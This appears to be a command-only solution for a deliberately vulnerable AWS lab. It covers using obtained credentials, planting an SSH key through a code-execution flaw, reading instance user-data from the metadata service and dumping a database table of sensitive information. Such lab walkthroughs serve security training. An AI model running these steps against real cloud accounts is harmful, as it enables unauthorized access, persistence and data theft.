 `aws configure --profile Lara`

`aws s3 ls --profile Lara`

`aws s3 ls s3://<bucket> --recursive --profile Lara`

`aws s3 cp s3://<bucket>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara`

`cat 555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log`

`aws elbv2 describe-load-balancers --profile Lara`

`ssh-keygen -t ed25519` (An ed25519 key pair may be necessary here because using an RSA public key can get truncated in the RCE)

`echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys`

`curl ifconfig.me`

`ssh -i private_key ubuntu@public.ip.of.ec2`

# BRANCH A:

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region us-east-1`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`

`\dt`

`select * from sensitive_information;`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`

